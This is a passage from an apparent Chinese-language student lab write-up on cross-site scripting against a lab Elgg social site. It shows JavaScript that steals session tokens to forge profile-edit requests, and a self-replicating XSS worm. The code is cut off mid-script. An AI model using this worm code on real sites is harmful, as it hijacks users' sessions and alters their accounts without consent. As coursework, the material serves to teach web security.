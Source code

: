   ```
  			Ajax.send(content);
  		}
  	}
  </script>
  ```

  分析：

  首先获取访问者的`&__elgg_token`、`__elgg_ts`、`&__name=elgg.session.user.name`和页面的其他信息，构建请求url，然后通过 `XMLHttpRequest` 对象构建请求，请求的方式为POST，设置请求头和其他信息，通过send函数发送请求

- 将上述代码添加到Alice的`About me`中（文本模式）。

- 登录Boby用户，此时他的主页是这样的：

  ![image-20200514001442373](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-12.png)

- 接着访问Alice主页，返回后，Boby自己主页已经被攻击，如图：

  ![image-20200514001515267](F:\liangx\研一课程\研一下\网络攻防\作业\11\img\2-2-13.png)

---

**（7）编写XSS蠕虫**

---

- 有两种方法可以进行攻击的繁殖，一种是链接的方式，就是把脚本放在一个固定的地方；第二种方法，就是使用DOM API的方法，文档对象模型，将Web页面和脚本或程序语言连接起来。这里我们采用第二种。

- 蠕虫代码如下：

  ```
  <script id="worm" type ="text/javascript">
  	var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
      var jsCode = document.getElementById("worm").innerHTML;
      var tailTag = "</" + "script>";
  	var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  	alert(jsCode);
  </script>
  ```

  分析：

  `innerHTML`标签获取了`worm`当前块内的所有代码，接着将`innerHTML`中缺失的头和尾补充上，为了防止其中的一些符号对字符进行了截断和转义 ，我们进行URI编码，也就是`encodeURIComponent`函数，最后提示输出。

- 上述代码是蠕虫的传播部分，我们结合上一任务的攻击代码，形成了如下的蠕虫代码：

  ```
  <script id="worm" type="text/javascript">
  	window.onload = function(){
  		var headerTag = "<script id=\'worm\' type=\'text/javascript\'>";
  		var jsCode = document.getElementById("worm").innerHTML;
  		var tailTag = "</" + "script>"; 
  		var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  
  		var userName=elgg.session.user.name;
  		var guid="&guid="+elgg.session.user.guid;
  		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  		var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  		//Construct the content of your url.
  		var content= token + ts + "&name=" + userName + "&description=<p>this page had been changed by xss attack  "+ wormCode + "</p> &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2" + guid;
  		var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
  		alert(content)
  
  ```